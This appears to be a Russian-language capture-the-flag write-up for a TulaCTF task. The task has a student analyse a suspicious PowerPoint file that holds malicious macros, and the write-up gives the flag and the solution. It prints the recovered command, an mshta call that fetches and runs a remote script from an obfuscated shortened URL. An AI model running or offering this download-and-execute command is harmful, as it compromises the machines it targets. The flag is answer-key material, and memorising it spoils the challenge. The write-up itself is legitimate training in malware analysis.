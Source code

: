 # Мой первый день

## Условие

> Внимание! Настоятельно рекомендуется использовать виртуальную машину для решения данного задания!

Студент на практике в одном из подразделений компании К получил на исследование подозрительный файл `Request for Quotation via ShipServ 7465649870 RFQ).ppt`, обнаруженный на одном компьютеров офиса службы внешних экономических связей. Изучение файла показало наличие в нем трех модулей макросов, код которых приведен ниже (по возможности сохранено оригинальное форматирование). 

Помогите стажеру определить, что происходит при открытии данного файла презентации на компьютере компании.
Ответом является md5 хеш полной выполняемой опасной команды. Пароль от архива ```studenttsu```

*Примечание к заданию*: в некоторых компаниях работа макросов в офисных приложениях включена по умолчанию, для совместимости с корпоративным ПО.

Формат флага: ```TulaCTF{md5sum}```

## Флаг

```TulaCTF{6981baa80ea61a7286ac65c46b6f7395}```


## Решение

Открываем редактор макросов, смотрим код в скриптах.
Замечаем команду, которая вызывается с MsgBox. Собираем команду в единую строку.
Нужно подставить все переменные, сложить их в строку, и взять от этой строки хеш сумму md5. Это и будет флаг.

Команда, которая запускалась в скрипте, и которую нужно было получить для ответа.
```mSHtA http://12384928198391823%12384928198391823@j.mp/fvgjadagjdbgvahsksadgka```

